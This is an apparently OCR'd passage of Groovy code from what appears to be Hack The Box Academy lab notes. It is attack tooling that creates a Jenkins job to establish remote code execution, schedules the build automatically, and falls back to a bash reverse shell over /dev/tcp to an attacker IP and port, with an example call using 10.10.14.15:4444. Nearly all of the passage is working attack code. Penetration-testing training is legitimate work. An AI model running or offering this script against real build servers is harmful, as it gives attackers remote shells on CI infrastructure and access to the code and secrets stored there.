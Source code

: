```groovy
exec(payload, (error, stdout, stderr) => {
    if (error) {
        console.error('Error:', error);
        return;
    }
    console.log('Shell established');
});
"""
        
        // Create Node.js build step (requires Node.js plugin)
        def buildStep = new hudson.plugins.nodejs.NodeJSBuildStep(
            "nodejs-default", // Node.js installation name
            nodeScript,
            "node"
        )
        
        project.getBuildersList().add(buildStep)
        jenkins.add(project, jobName)
        jenkins.save()
        
        println "[+] Node.js RCE job '$jobName' created"
        println "[+] Job will execute reverse shell to $attackerIP:$port"
        
        // Trigger build if possible
        def build = project.scheduleBuild(0)
        if (build) {
            println "[+] Build scheduled automatically"
        }
        
    } catch (Exception e) {
        println "Node.js RCE job creation failed: ${e.getMessage()}"
        
        // Alternative: Direct Node.js execution if available
        try {
            def cmd = ["node", "-e", "require('child_process').exec('bash -i >& /dev/tcp/$attackerIP/$port 0>&1')"]
            def proc = new ProcessBuilder(cmd).start()
            println "[+] Direct Node.js execution attempted"
        } catch (Exception ex) {
            println "Direct Node.js execution also failed: ${ex.getMessage()}"
        }
    }
}

// Usage:
// createNodeJSRCEJob("nodejs-backdoor", "10.10.14.15", 4444)
```

---

## HTB Academy Lab Solutions
